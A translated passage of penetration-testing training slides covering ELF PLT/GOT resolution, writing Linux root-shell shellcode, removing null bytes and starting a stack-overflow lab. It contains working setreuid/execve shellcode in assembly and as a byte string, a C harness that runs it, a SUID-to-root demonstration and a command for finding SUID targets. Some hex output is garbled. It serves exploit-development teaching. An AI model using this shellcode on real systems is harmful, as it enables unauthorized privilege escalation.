0x80484a4 <main+83>: call 0x8048374 <puts@plt>
(gdb)
```
2. 在命令行中输入以下命令：
```bash
$ objdump -d -j .text ./memtest | grep puts
80484a4: e8 cb fe ff ff   call 8048374 <puts@plt>
$
```
从`/home/deadlist`目录输入`gdb memtest`启动GDB，接着输入`disas main`找到对puts()函数的调用。puts()函数功能是将字符串输出到标准输出（stdout），与printf()类似，但不支持格式字符串。输入上述命令后，你应该能看到类似的指令，该指令是main()对puts()函数的调用，但调用目标地址在哪里？记下这个内存地址以继续后续练习，我们示例中的内存地址是0x8048374。你也可以通过以下objdump命令获取相同信息：
```bash
objdump -d -j .text memtest | grep puts
```
该命令会得到对应结果展示的内容。你首先需要知道程序从共享库调用的函数名称才能使用grep过滤，我们可以通过查看程序的动态重定位条目获取这些信息。
## ELF演示（三）
输入以下命令查看结果：
```bash
$ objdump -R ./memtest

./memtest：文件格式 elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497cc R_386_GLOB_DAT    __gmon_start__
080497dc R_386_JUMP_SLOT   getpid
080497e0 R_386_JUMP_SLOT   __gmon_start__
080497e4 R_386_JUMP_SLOT   __libc_start_main
080497e8 R_386_JUMP_SLOT   scanf
080497ec R_386_JUMP_SLOT   printf
080497f0 R_386_JUMP_SLOT   puts
```
执行`objdump -R memtest`命令会得到上述结果。列表内容实际上是每个函数的全局偏移表（GOT）条目。为什么之前看到的地址0x8048374不再出现？现在我们看到左侧的地址是puts()函数对应的0x080497f0，我们将在下一页分析原因。
## ELF演示（四）
1. 在GDB中输入以下命令，理解其含义：
```gdb
(gdb) x/3i 0x8048374
0x8048374 <puts@plt>:    jmp *0x80497f0
0x804837a <puts@plt+6>:  push $0x28
0x804837f <puts@plt+11>: jmp 0x8048314 <_init+48>
(gdb)
```
2. 在命令行中输入以下命令：
```bash
$ objdump -j .got.plt -d ./memtest | grep 80497f0
80497f0: 7a 83 04 08
```
 如果我们回到代码段，查看main()中puts()函数调用对应的原始地址0x8048374，会得到幻灯片上方图片展示的结果。现在我们知道，进入main()中puts()调用的地址后，会重定向到过程链接表（PLT）中的puts()条目。PLT条目中包含一个跳转指令，跳转目标为地址0x80497f0处的指针。我们现在需要继续解析路径。0x80497f0位于全局偏移表（GOT）中，这个地址就是执行`objdump -R`命令时看到的地址。
接下来输入以下GDB命令：
```gdb
(gdb) x/3i 0x8048374
```
然后输入以下命令：
```bash
$ objdump -j .got.plt -d ./memtest | grep 80497f0
80497f0: 7a 83 04 08
```
该命令会返回`.got.plt`段（即全局偏移表段）中的地址内容。如幻灯片第二张图所示，地址0x80497f0对应的内容为`7a 83 04 08`，由于小端序存储需要反转字节顺序，因此得到地址0x804837a，对应上方第一个命令执行结果的第二行内容。这意味着默认情况下，GOT条目会指回PLT，从而触发动态链接器调用，将目标函数的实际地址写入其对应的GOT位置。
## ELF演示（五）
1. 在GDB中输入以下命令：
```gdb
(gdb) x/x 0x80497f0
0x80497f0 <_GLOBAL_OFFSET_TABLE_+32>: 0xb7ee7920
(gdb)
```
2. 查看GOT中新填充的地址对应的内容：
```gdb
(gdb) x/3i 0xb7ee7920
0xb7ee7920 <puts>:    push %ebp
0xb7ee7921 <puts+1>:  mov %esp,%ebp
0xb7ee7923 <puts+3>:  sub $0x1c,%esp
```
再次使用GDB来帮忙！通过输入`gdb memtest`命令启动memtest程序的GDB调试，在GDB中输入`run`运行程序。程序会要求你输入一个数字，选择任意数字按下回车即可。此时程序会卡在while循环中保持运行，按下CTRL-C可以“中断”程序。接着在GDB中输入以下命令：
```gdb
(gdb) x/x 0x80497f0
```
结果如幻灯片所示。左侧的地址是之前通过PLT的JMP指令获取的地址。在运行程序之前，该地址没有有效条目，而是指向PLT的指针，用于调用动态链接器。现在程序已经运行，且puts()函数的调用已经执行完成，符号已经被解析，我们得到了所示地址`0xb7ee7920`，这应该是puts()函数的实际地址。如果我们输入`x/3i 0xb7ee7920`命令，会发现这确实是puts()函数的地址。参数`3i`表示显示三条指令结果，结果如幻灯片下方图片所示。此时符号已经完成完全解析。注意，最初并不是这样的，GOT中的符号只有在第一次被请求时才会被解析。此时动态链接器会解析符号，并将地址写入GOT对应的位置。在此之后程序运行期间，对同一函数的任何请求都会直接使用该函数的地址，无需再调用动态链接器。PLT条目指向GOT中存储函数实际地址的条目。


## 模块摘要
- 理解处理器寄存器是关键
- 内存管理十分复杂
- 理解x86汇编代码需要下一番功夫，深入其中吧！
- 链接器和加载器需要特别关注
- 我们已经掌握了继续学习的基础

在本模块中，我们涵盖了内存和处理器行为的一些关键方面，这些内容能帮助我们后续学习更高级的概念。处理器寄存器在设计时就明确了特定功能；不过这些能力会交给程序员，由他们决定如何使用这些寄存器。内存管理非常复杂，随着我们进一步学习，这一点会愈发明显。在本课程接下来的部分，我们会频繁分析汇编代码，而深入钻研是学习的最佳方式。

## 复习问题
- 1） 哪个32位处理器寄存器负责计数？
- 2） 以下汇编指令属于Intel格式还是AT&T格式：`PUSH DWORD PTR SS:[EBP+8]`
- 3） 函数的PLT条目保存着一个指向GOT中对应位置的JMP指令。判断正误：
- 4） 什么结构会存储指定进程的处理器寄存器状态？

### 答案
- **1) ECX寄存器**：ECX寄存器通常用于执行计数操作。
- **2) Intel**：指令`PUSH DWORD PTR SS:[EBP+8]`属于Intel格式，来自Windows系统。
- **3) 正确**：过程链接表（PLT）和全局偏移表（GOT）用于在程序运行期间及运行后解析符号，PLT中保存着跳转到GOT内对应函数条目的指令。
- **4) 进程控制块（PCB）**：处理器执行上下文切换时，PCB会存储所有寄存器的状态。

## 推荐阅读
- *《使用GDB调试》*，作者Richard M. Stallman、Cygnus Solutions，1999年2月出版
- *《链接器与加载器》*，作者John R. Levine，2000年出版
- *《Intel架构计算机汇编语言（第5版）》*，作者Kip R. Irvine，2007年出版
- Intel 64与IA-32架构软件开发者手册：https://software.intel.com/en-us/articles/intel-sdm

## 课程路线图
- 渗透测试人员的网络攻击
- 加密与后渗透技术
- Python、Scapy与模糊测试
- 渗透测试人员的Linux漏洞利用
- 渗透测试人员的Windows漏洞利用
- 夺旗挑战

### 第4天
#### 内存入门
#### Shellcode入门
本模块将逐步讲解Shellcode的定义、用途，以及编写Shellcode时必须考虑的一些典型行为问题。

#### 栈粉碎
- 练习：Linux栈溢出
- 练习：ret2libc

#### 高级栈粉碎
- 练习：x64_vuln

#### 训练营
- 练习：暴力破解ASLR
- 练习：mbse
- 额外练习：带ASLR的ret2libc

## 学习目标
本模块的核心学习目标包括：
- Shellcode基础原理
- 系统调用机制
- Shellcode编写方法
- 空字节去除技巧
- Shellcode测试方法

在本模块中，我们将深入探索Shellcode的世界。首先会讲解Shellcode和系统调用的基础知识，随后介绍Shellcode的编写方法。我们重点讲解Linux Shellcode的编写，因为其复杂度低于Windows Shellcode，Windows Shellcode的内容会在对应课程日讲解。

## Shellcode
- Shellcode：用于生成Shell的代码……
- 采用汇编语言编写
- 会被汇编为机器码
- 针对特定处理器架构
- 例如x86、PowerPC、ARM、x64 OS X
- 在漏洞利用过程中注入到目标程序中，作为“载荷”

Shellcode这个名字源于其历史用途：最初它主要用于生成Shell。Shellcode通常用汇编语言编写，再通过Netwide Assembler（NASM）这类工具汇编为机器码。如今，在被攻破程序的权限范围内，Shellcode几乎可以实现任何操作。常见用途包括：将Shell绑定到系统监听端口、将Shell反弹到远程系统、添加用户账号、DLL注入、日志删除或篡改，以及其他诸多功能。Shellcode最常用x86等汇编语言编写，而汇编代码与架构绑定的特性导致它无法在不同处理器类型之间移植。Shellcode通常直接操作处理器寄存器，为通过操作码发起各类系统调用做好准备。当汇编代码编写完成并实现所需功能后，需要将其转换为机器码并清除所有空字节——必须去掉空字节，因为`strcpy()`等许多字符串操作符遇到空字节就会终止。我们有相应的规避技巧，后续会详细讲解。

## 系统调用
- 强制程序代表你调用指定功能
- 实现用户模式与内核模式（Ring 0）之间的通信
- 参数被加载到处理器寄存器中，随后触发中断
- 32位x86架构下的规则：
  - EAX寄存器存放所需的系统调用编号
  - EBX、ECX和EDX寄存器通常按字母顺序存放传入参数
  - 编写对应汇编代码前，必须充分理解每个系统调用的规则

要调用函数执行开启系统端口、修改权限等操作，必须使用系统调用。在UNIX操作系统中，每个功能都有对应的系统调用编号，这些编号的一致性简化了不同操作系统之间的编程工作。系统调用是与硬件通信的途径，也能实现内核提供的、可能未包含在应用程序地址空间中的功能。大多数系统通过环级别实现安全保护，防止应用程序直接访问硬件和特定系统功能。如果用户级程序需要访问自身地址空间外的功能（例如`setuid()`），必须先确定目标功能的系统调用编号，再发送中断0x80（`int 0x80`）。`int 0x80`是一条汇编指令，在大多数*类UNIX操作系统*上用于发起系统调用，该中断作为信号机制，通知操作系统有特定事件发生。操作系统收到该信息后，可以对任务和指令进行优先级排序和处理。
大多数系统调用需要传入一个或多个参数：系统调用编号会被加载到EAX寄存器，要传递给目标函数的参数会被加载到EBX、ECX和EDX寄存器，顺序通常如此。（64位系统会使用QWORD寄存器和R9-R16，例如调用`exit()`函数时。）执行时先将数值“1”加载到EAX寄存器，再将`exit()`的参数加载到其余寄存器，最后执行`int 0x80`。示例如下：
```asm
mov eax, 1
mov ebx, 0
int 0x80
```
上述指令将`exit()`的系统调用编号“1”加载到EAX，将数值“0”加载到EBX，最后执行中断0x80。

| 编号 | 系统调用 | 备注 |
|------|------------|--------------------------|
| 00 | sys_setup | [sys_ni_syscall] |
| 01 | sys_exit | ... |
| 04 | sys_write | |
| 05 | sys_open | |
| 06 | sys_close | ... |
| 11 | sys_execve | |
| 15 | sys_chmod | ... |
| 23 | sys_setuid | |
| 24 | sys_getuid | ... |
| 37 | sys_kill | |
| 39 | sys_mkdir | |
| 40 | sys_rmdir | ... |
| 45 | sys_brk | |
| 46 | sys_setgid | ... |
| 52 | sys_umount2 | [sys_umount] (2.2+) |
| 53 | sys_lock | [sys_ni_syscall] |
| 54 | sys_ioctl | |
| 55 | sys_fcntl | |
| 56 | sys_mpx | [sys_ni_syscall] |
| ... | ... | ... |
| 70 | sys_setreuid | |
| 71 | sys_setregid | |
| 72 | sys_sigsuspend | |

完整列表可在文件`/usr/include/asm-i386/unistd.h`中找到，感谢Jon Erickson指出这一点。

## 创建Shellcode（1）
- 我们直接进入高效Shellcode的编写方法
  - 生成root Shell：
    - 多数程序会主动降权
    - 我们需要恢复程序权限
    - 使用`setreuid()`系统调用
    - 还可能出现其他问题……
- 本次我们以32位示例进行讲解

许多安全研究人员已经依赖诸如“Metasploit项目”（官网：https://www.metasploit.com）这类资源生成Shellcode。快速获取概念验证（PoC）用Shellcode的能力非常实用，但了解Shellcode的工作原理与修改方法同样重要。如果你编写过大量PoC漏洞利用程序，经常会遇到需要自定义Shellcode的特殊场景。此外，若现有Shellcode已经过时，你必须自行编写，又该如何处理？这是一项非常实用的技能，掌握它会让你与汇编代码建立必要的关联。
我们不会花费大量时间讲解Shellcode的编写，因为这些通用于大多数Shellcode的生成逻辑。当你理解了核心需求后，就可以推导出多种不同类型的Shellcode。Linux上更高级的Shellcode往往复杂度更高，原因是你需要掌握诸多操作技能，例如为远程漏洞利用将Shell绑定到监听端口。如果你有C或C++这类编程语言的基础，只需要理解汇编层面的系统调用需要什么参数、参数要加载到哪些寄存器即可。
现在我们来看如何将权限提升到root。我们直接聚焦恢复被利用程序的权限这一核心需求，避免拿到用户级Shell。如前所述，只要可行，应用程序都会将降权作为安全特性。要让你的Shellcode生成root Shell，我们需要调用特定函数恢复被利用程序的权限，这里可以使用`setreuid()`系统调用。我们还会讲解编写Shellcode时遇到的其他典型问题。


## 创建Shellcode (2)
```assembly
BITS 32 ; Below is the syscall for restoring the UID back to 0... mov eax, 0x00 ; We're moving 0x0 to eax to prepare it for a syscall number mov ebx, 0x00 ; We're moving 0x0 to ebx to pass as arg to setreuid() mov ecx, 0x00 ; We're moving 0x0 to ecx to pass as arg to setreuid() mov edx, 0x00 ; We're moving 0x0 to edx to pass as arg to setreuid() mov eax, 0x46 ; Loading syscall #70 setreuid() into eax int 0x80 ; Sending interrupt and execute syscall for setreuid() ; Below is the syscall for execve() to spawn a shell... mov eax, 0x00 ; Zeroing out eax again. push edx ; Pushing null byte to terminate string. push 0x68732f2f ; Pushing //sh before null byte. // makes it 4 bytes. Extra / is ignored push 0x6e69622f ; Pushing /bin before //sh and the null byte. mov ebx, esp ; Moving Stack Pointer address into ebx register. push edx ; Pushing 0x0 from XOR-ed edx reg onto stack push esp ; Pushing esp address above 0x0. mov ecx, esp ; Copying esp to ecx for argv. mov eax, 0x0b ; Loading system call number 11 execve() into eax int 0x80 ; Sending interrupt and execute syscall for execve(), legacy 32-bit mode not supported on 64-bit
```
本幻灯片给出了使应用程序在调用execve()生成root shell时以root身份运行，所需将用户ID恢复为0的汇编代码。注意这不是典型的x86汇编程序：普通汇编程序会定义.text、.data等节，而本代码没有这些定义。我们正在尝试编写一段位置无关的汇编代码，需要将其注入到应用程序的地址空间中，因此必须弥补无法轻松定义各类节的缺陷。编写shellcode最高效、最可靠的方法是确保其可独立运行。shellcode编写者会使用很多技巧让shellcode成功执行，我们接下来会了解其中几种。现在请跟随本幻灯片中的注释，逐步走完这段汇编代码。

## 净宽汇编器（NASM）
- 工具：NASM
- 原作者：Simon Tatham 和 Julian Hall
- NASM是x86、x86-64架构的汇编器
- 用于将汇编代码汇编为目标文件
- 支持ELF、COFF等格式

为了汇编我们的shellcode并提取机器指令，我们首先使用x86汇编器——净宽汇编器（NASM）。该工具最初由Simon Tatham和Julian Hall编写，目前由H. Peter Anvin及其团队维护。NASM是支持多种目标文件格式的x86、x86-64汇编器，包括ELF、COFF、Win32、Mach-O等，你可以通过`-f`参数指定目标文件格式。例如，`nasm -f elf <文件名>`会将汇编代码汇编为ELF可执行文件。本次场景中，我们使用NASM仅为汇编我们的代码，以便提取所需的机器码。由于我们的代码需要是位置无关的，因此不能进行链接操作！

NASM还附带NDISASM反汇编器，可以查看每条汇编指令对应的机器码。如果你通过`-f`参数手动指定目标文件格式（比如ELF），我推荐使用objdump这类工具反汇编目标文件，以此检查机器码。本次练习中，我们使用由Juergen Weigert编写的xxd工具，该工具可以提供方便复制粘贴的机器码视图！

## 创建Shellcode (3)
- 使用nasm进行汇编...
```bash
deadlist@deadlist-desktop:~$ nasm setreuid_shellcode_w_nulls.s
deadlist@deadlist-desktop:~$ xxd -ps setreuid_shellcode_w_nulls
b800000000 bb00000000 b900000000 ba00000000 b846000000 d80b880000 0000536821247368882c762694e0a3525489e18a0aa0000000480
```
- 使用xxd转储机器码
- `-ps`标志仅输出十六进制内容
- 存在大量空字节！
- 多数字符串函数会失效
- Shellcode长度为56字节！太长了！

在本幻灯片中，你可以看到用于汇编我们的汇编代码、以及查看shellcode所需机器码所执行的命令，这些命令是：
```bash
nasm setreuid_shellcode_w_nulls.s
xxd -ps setreuid_shellcode_w_nulls
```
第一条使用NASM的命令只是汇编了上一张幻灯片中的代码，我们没有使用任何特殊参数来完成这个任务。第二条命令使用xxd工具，搭配`-ps`（postscript）参数。`-ps`参数仅输出机器码格式的汇编代码，不包含任何地址转换，方便查看和复制粘贴。如你所见，我们的shellcode存在空字节问题。在漏洞利用场景中，你通常会依赖`strcpy()`或`gets()`这类字符串操作函数将数据复制到缓冲区，当这些函数遇到0x00这类空字节时，会将其视为字符串终止符，这当然会导致我们的shellcode失效。在本示例中，存在大量需要处理的空字节。我们还遇到了另一个问题：当前shellcode长度为56字节，对很多缓冲区来说太大了。

## 移除空字节（一）
- 必须移除空字节：
- `mov eax, 0x0a`会留下0值
- 使用`mov al, 0x0a`
- 有多种实现方式：
- `xor eax, eax`
- `sub eax, eax`
- `mov eax, ecx`
- `inc eax` / `dec eax`

很多汇编指令都会导致shellcode中出现空字节。这个问题的主要影响是，`strcpy()`这类字符串操作会在遇到空字节时停止复制数据。例如，如果你尝试将10（0x0a）移入EAX寄存器，会得到0x0000000a，残留3个空字节。这些空字节同样会导致字符串操作终止，破坏你的shellcode。有一些技巧可以规避这类问题。以将10移入EAX为例：32位寄存器长度为4字节，但为了向后兼容，这些寄存器的较小组件可以直接访问。例如，EAX的低16位可以通过引用寄存器名AX直接访问，AX寄存器的高8位和低8位还可以分别通过AH和AL独立访问，其中“L”代表低（Low），“H”代表高（High）。了解了这些知识后，我们应该使用`mov al, 0x0a`指令，消除所有空字节。

通常你需要向系统调用传递0作为参数，问题在于如果尝试通过shellcode直接将0加载到寄存器中，字符串操作就会失效。有几种方法可以解决这个问题。你最常会看到使用`xor eax, eax`指令来清零寄存器，因为它不会修改EFLAGS寄存器。当某数值与自身进行异或运算时，结果一定是0。另一种清零寄存器的方法是用寄存器自身做减法，例如`sub eax, eax`会将EAX清零。你也可以使用`mov eax, ecx`指令，将一个值已经为0的现有寄存器的值移动到目标寄存器。还有一种清零寄存器的方法是使用递增（inc）和递减（dec）指令，这类指令会将寄存器的值加1或减1。通过合理组合这些指令，你就可以将寄存器清零。但这些指令的问题是，会让你的shellcode体积膨胀得超出预期。


## 移除空字节（2）
本幻灯片演示了之前讨论过的部分移除空字节的方法，请逐条浏览与上一版不同的指令。
```nasm
BITS 32 ; Below is the syscall for restoring the UID back to 0 ; I have demonstrated a couple of ways to zero a register without having nulls xor eax, eax ; Zero out eax to prepare it for a system call number xor ebx, ebx ; Zero out ebx to pass as argument to setreuid() sub ecx, ecx ; Zero out ecx by subtracting it from itself mov edx, ecx ; Move 0x0 from ecx into edx to avoid null bytes in shellcode mov al, 0x46 ; Load system call number 70 (setreuid()) into eax int 0x80 ; Send interrupt to execute the setreuid() syscall ; Below is the syscall for execve() to spawn a shell sub eax, eax ; Zero out eax again push edx ; Push null byte to terminate string, placed after /bin/sh push 0x68732f2f ; Push //sh before null byte, // makes it 4 bytes, extra / is ignored push 0x6e69622f ; Push /bin before //sh and the null byte mov ebx, esp ; Move stack pointer address into ebx register push edx ; Push 0x0 from zeroed edx register onto stack push esp ; Push esp address above the 0x0 null mov ecx, esp ; Copy esp to ecx for argv mov al, 0x0b ; Load system call number 11 (execve()) into eax int 0x80 ; Send interrupt to execute the execve() syscall
```
## 移除空字节（3）
- 用nasm汇编新版本：
```bash
deadlist@deadlist-desktop:~$ nasm setreuid_shellcode_wo_nulls.s
deadlist@deadlist-desktop:~$ xxd -ps setreuid_shellcode_wo_nulls
31c031db29c989cab046cd8029c052682f2f7368682f62696e89e3525489e1b00bcd80
```
- 无空字节
- 空字节已消除！
- Shellcode仅35字节
- 我们将其加载到程序中测试
如你所见，当我们用NASM汇编这一版本的代码，并用xxd以16进制查看机器码时，空字节已经不存在了。这段代码可以毫无问题地复制到缓冲区中。现在这段shellcode的体积也小了很多，仅35字节！还有一些方法能让shellcode更小，比如使用`cdq`和`xchg`指令。这两条都是短指令，可以节省你的shellcode空间。`cdq`指令能让你通过EDX寄存器，把EAX当作64位寄存器来使用。利用这个特性，你可以用仅1字节的指令将EDX设置为0x00000000（空值）。`xchg`指令可以交换两个寄存器的内容。
## 测试我们的Shellcode（1）
- 以下程序可以用于测试我们的shellcode：
```c
/* Below is a C program to test your shellcode. The shellcode following should spawn a root shell */
/* as long as the program is owned by root with SUID. Any programs written to test your shellcode. */
/* This method of defining scode as a function was lifted from milw0rm.com at */
/* https://web.archive.org/web/20080714043347/http://milw0rm.com/papers/51 from author hall. */
/* The shellcode was written by myself, Stephen Sims... */
/* Size of shellcode is 35 bytes. Can be made smaller with cdq instruction... */
char scode[] = "\x31\xc0\x31\xdb\x29\xc9\x89\xca\xb0" "\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f\x2f" "\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3" "\x52\x54\x89\xe1\xb0\x0b\xcd\x80";
int main(int argc, char **argv)
{
    int (*one)();
    one = (int(*)())scode;
    (int)(*one)();
}
```
本幻灯片提供了一种测试shellcode是否可用的方法。不少程序都是做这类测试的。这段代码来自https://www.exploit-db.com/papers/13224/。这是一个简单的程序，它将函数指针`one`指向我们的shellcode地址，之后shellcode会作为函数被调用并执行。
## 测试我们的Shellcode（2）
- 编译程序并设置为root权限：
```bash
deadlist@deadlist-desktop:~$ gcc scode1.c -o scode1
deadlist@deadlist-desktop:~$ sudo -i
[sudo] password for deadlist:
root@deadlist-desktop:~# chown root:root /home/deadlist/scode1
root@deadlist-desktop:~# chmod +s /home/deadlist/scode1
root@deadlist-desktop:~# exit
deadlist@deadlist-desktop:~$ ./scode1
# id
uid=0(root) gid=1000(deadlist) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),108(lpadmin),109(admin),115(netdev),117(powerdev),1000(deadlist)
```
- 成功！
幻灯片中的第一张图演示了编译shellcode程序、将其命名为scode1的过程。之后我们将其所有者设置为root并开启SUID权限，这样我们的shellcode就能在为我们生成shell之前，先恢复root权限。下一张图展示了我们用`./scode1`运行程序的结果。如你所见，执行`id`命令后，我们虽然以deadlist用户登录，但现在已经以root身份运行了。scode程序也可以用来测试他人编写的shellcode。直接信任他人编写的shellcode会按预期运行是明智的吗？你只需将shellcode放入scode程序的全局数组中，再将程序加载到GDB里即可。程序加载完成后，你可以在`main()`内的函数指针调用处设置断点，然后用GDB的`si`命令单步执行`scode()`函数，查看它的意图。重点检查加载到EAX寄存器中的系统调用号。
## 模块总结
- Shellcode基础
- 系统调用
- 中断
- 编写Shellcode
- 移除空字节
- 提取机器码
在本模块中，我们快速了解了如何在Linux上编写自己的shellcode。这是一项很实用的技能，因为网络上能找到的shellcode往往不是恰好符合你需求，或是已经无法使用。要编写自己的shellcode，你必须了解系统调用和中断的工作机制，同时熟悉汇编代码。我们还学习了从shellcode中移除空字节、减小其体积的相关示例。
## 复习问题
1) 以下哪种是设置EAX为零的最佳方法？
- a) sub eax, eax
- b) mov eax, ecx
- c) xor eax, eax
2) 需要将目标系统调用号加载到哪个寄存器？
3) 你可以使用哪个系统调用来恢复权限？


## 答案
1) 以下哪项是将EAX寄存器清零的最佳方式？
- a) `sub eax, eax`
- b) `mov eax, ecx`
- c) `xor eax, eax`
选项C正确，因为它不会修改EFLAGS寄存器。
2) 进行系统调用时，需要将目标系统调用号加载到哪个寄存器？
通过中断调用系统时，EAX寄存器用于存放系统调用号。
3) 你可以使用哪个系统调用来恢复权限？
在调用`execve()`生成shell之前，可以使用`setreuid()`系统调用来恢复权限，其他系统调用也可用于恢复权限，例如`setuid()`系统调用。
## 推荐阅读
- Kip R. Irvine 所著《Intel架构x86/x64汇编语言程序设计》第5版，2007年
- Intel公司于2007年11月发布的《IA-32 Intel架构软件开发者手册》
- Jon Erickson 所著《黑客：攻防的艺术》第2版，2008年
- Chris Anley、John Heasman、Felix "FX" Linder 和 Gerardo Richarte 所著《Shellcoders手册》第2版，2007年
- H.D. Moore等人编写的《Metasploit项目》：https://www.metasploit.com
## 课程路线图
- 渗透测试人员的网络攻击
- 加密与后渗透利用
- Python、Scapy与模糊测试
- 针对渗透测试人员的Linux漏洞利用
- 针对渗透测试人员的Windows漏洞利用
- 夺旗挑战
**第4天**
### 内存基础
### Shellcode基础
### 栈溢出攻击
- 练习：Linux栈溢出
- 练习：ret2libc
### 高级栈溢出攻击
- 练习：x64_vuln
### 集训营
- 练习：暴力破解ASLR
- 练习：mbse
- 附加练习：带ASLR的ret2libc
## 栈溢出攻击
在本模块中，我们将深入探讨Linux系统上利用栈段的攻击流程。课程包含多个练习，要求你克服各类阻止特定攻击方法的限制条件。栈溢出攻击已经存在很长一段时间，是学习攻击流程的绝佳入门内容。
## 学习目标
- 本模块的学习目标包括：
  - 识别特权程序
  - Linux系统上的栈溢出利用
  - 栈的利用方法
  - 触发段错误
  - 权限提升/获取shell
  - return-to-libc
我们将从利用简单的基于栈的缓冲区溢出漏洞开始，逐步讲解用于阻止攻击者成功的控制机制，包括简单的返回缓冲区攻击、返回函数攻击和return-to-libc攻击。
## 操作系统版本说明
- 为什么我们要切换不同版本的操作系统，既有较旧的也有较新的？
- 学习数学你会从微积分开始吗？
- 技术通常大同小异；但我们必须学习如何绕过防护机制：
  - 操作系统层面：ASLR、LFH、DEP
  - 编译器层面：金丝雀、SafeSEH
  - 部分程序可以选择开启或关闭某些控制机制
  - Windows 7/8 和 2008/2012 的漏洞利用通常涉及覆盖堆上的C++虚表指针
  - 需要高级编程技能的复杂攻击
一个常见的问题是：“为什么我们不直接从Windows 7的漏洞利用开始？”答案很简单。学习数学时你不会直接从微积分入门，必须首先了解前置知识并打好基础。利用最新操作系统所使用的技术通常大同小异，甚至完全一致。问题在于过去数十年间新增的大量操作系统和编译时控制机制。当你理解了基础缓冲区溢出的工作原理后，就很容易明白这些防护机制是如何阻碍你的攻击的。这能帮助你更轻松地理解绕过这些控制机制的相关概念，进而实施攻击。一个典型的例子是使用面向返回编程（ROP）技术，禁用存放shellcode的内存页面的数据执行保护（DEP）。本质上，利用技术与20年前相比并无变化，我们只是新增了一种技术来帮助绕过漏洞缓解控制机制（DEP）。许多最新操作系统都配备了大量的漏洞缓解控制机制，导致基于栈的攻击有时即便发现了漏洞也根本无法实施。堆溢出是流行的替代方案，因为这类攻击针对的是应用数据，而应用数据通常是在运行时动态生成的，更难防护。这些攻击可能非常复杂，要求对C和C++有扎实的理解，同时具备高级逆向工程和调试技能。在掌握本课程内容后，SANS SEC760《渗透测试人员高级漏洞利用开发》课程可以帮助你进一步提升相关技能。
## Linux下的栈漏洞利用
- 本模块几乎全是实践练习！
- 栈溢出的目标包括：
  - 权限提升
  - 获取shell
  - 绕过认证
  - 覆盖内存
  - 还有更多...
- Kubuntu的密码是"deadlist"
在本模块中，我们会选取一个用GCC编译的简单C程序，寻找可利用的可能，同时讨论GCC为实现阻止基于栈的攻击而添加的控制机制。我们会绕过其中部分控制机制，并讨论GCC最新版本中新增的较新控制机制，以及操作系统层面的控制机制。
## 栈溢出的目标
发现栈溢出漏洞后，攻击者有很多选择，最常见的包括权限提升、获取root shell、绕过认证、添加账户，还有很多其他选项。权限提升通常和获取root shell结合使用，之后可能还会添加账户以维持永久访问权限。如果我们以普通用户身份运行，在系统上的权限自然受限。由于多年来实施的各类控制机制，很多攻击需要使用多种技巧。例如，通过浏览器远程漏洞利用攻入系统的攻击者，此时通常希望能够获得root权限；但如今很多浏览器的运行权限更低，这就阻止了攻击者完全控制系统。攻击者随后必须找到系统上的本地漏洞来提升权限。部分程序以root的SUID权限运行。如果某个程序以SUID root权限运行，且存在栈漏洞，攻击者就可以提升自己的权限。攻击者不一定总是想要获得root shell。通过修补可执行文件或重定向程序执行到其他位置，绕过某个程序的认证可能就已经足够了。甚至存在已知的格式化字符串漏洞，允许攻击者覆盖/etc/shadow和/etc/passwd文件，创建UID为0的root账户。关键是，发现漏洞后有很多利用选项。
## 查找特权程序
运行以下命令：
``` $ ls -la password -rwsrwsrwx 1 root root 7320 Jul 20 2012 password ```
> 字段说明：suid/sgid、owner、group、Program name 对应上述输出的各列
- SUID权限标志会使程序以所有者的权限上下文运行！
- 该程序的所有者为root
`find / -perm /6000`
攻击者和渗透测试人员通常会搜索基于UNIX的系统上的程序，这些程序可能具有高权限。搜索权限字段中设置了SUID或SGID位的程序，可以帮助你优先确定有价值的目标，因为这些程序可能导致权限提升。如幻灯片中所示，这些程序以权限旁标识的所有者或组的上下文运行。这意味着如果用户John运行幻灯片上显示的password程序，该程序会以root的上下文运行。换句话说，如果某个由root拥有的程序设置了SUID权限位，且存在漏洞，攻击者利用该漏洞就可能获得root上下文下的代码执行权。基于UNIX的系统上通常有很多设置了SUID权限位的程序，部分是系统默认安装的，部分是安装其他程序时自带的。你可以使用以下命令搜索SUID和SGID程序：`find / -perm /6000` 已知攻击者还会试图诱骗管理员将root拥有的、设置了SUID位的程序放到系统上，甚至会挂载包含同类型程序的其他设备的文件系统。


## **练习：Linux栈溢出**
- **目标：** 运行于Kubuntu 12.04 精确小熊猫版上的密码程序
  - 一个Linux ELF二进制文件
  - 存在栈溢出漏洞的概念验证（PoC）程序
  - 未启用任何漏洞缓解措施
- **目标：**
  - 触发程序内的缓冲区溢出
  - 使用Metasploit模式脚本
  - 确定缓冲区大小
  - 验证对指令指针的控制权
  - 获得shellcode执行权限

> 你的讲师会先演示所有关键要点，再将该练习的控制权交给你。本次练习中，你将针对一个Linux概念验证二进制程序执行基础栈溢出攻击，使用的是Kubuntu 12.04 精确小熊猫版虚拟机。出于设计初衷，该程序功能极简，这是为了避免学习过程中被无关内容分散注意力。随着练习推进，程序会逐步增加交互性。该程序编译时未包含任何漏洞缓解措施，运行的操作系统也未启用相关防护，这种情况很快会发生改变。你的目标是定位、触发并成功利用程序中的缓冲区溢出漏洞。你将使用Metasploit的`pattern_create`和`pattern_offset`脚本来辅助确定缓冲区大小。一旦确定缓冲区大小并验证了对指令指针的精准控制，你将接管进程以绕过认证并获得shellcode执行权限。本次练习预计耗时45分钟至1小时。

## 密码程序（1）
- 让我们一起完成本次练习！
- 使用Kubuntu 12.04 – 精确小熊猫版
- 切换到`/home/deadlist`目录
- 使用`./password`运行密码程序
- 尝试猜测密码
- 你能想到其他可尝试的操作吗？

``` 
$ uname -rs
Linux 3.2.0-23-generic-pae 
```

让我们一起完成本次练习。首先切换到Kubuntu系统中的主目录，接着在该目录下输入`./password`运行密码程序。程序会提示你输入密码，你可以尝试猜测几个可能的密码。你大概率无法在合理时间内猜中密码。虽然你可以编写暴力破解密码猜测工具，但耗时可能会远超本次练习的可用时间。本次练习的重点是探索其他破解程序、获取预期结果的方法。如果你无法猜中密码，还能采取哪些手段破解程序？我们之前已经讲过程序在内存中的布局，以及存在的各类漏洞。在进入下一页前，你可以先思考相关方法。作为高级渗透测试人员，最重要的要求之一就是尽可能多地思考可能性，跳出思维定式。

## 密码程序（2）
- 触发段错误
- 使用Python发送1000个字符A：
``` 
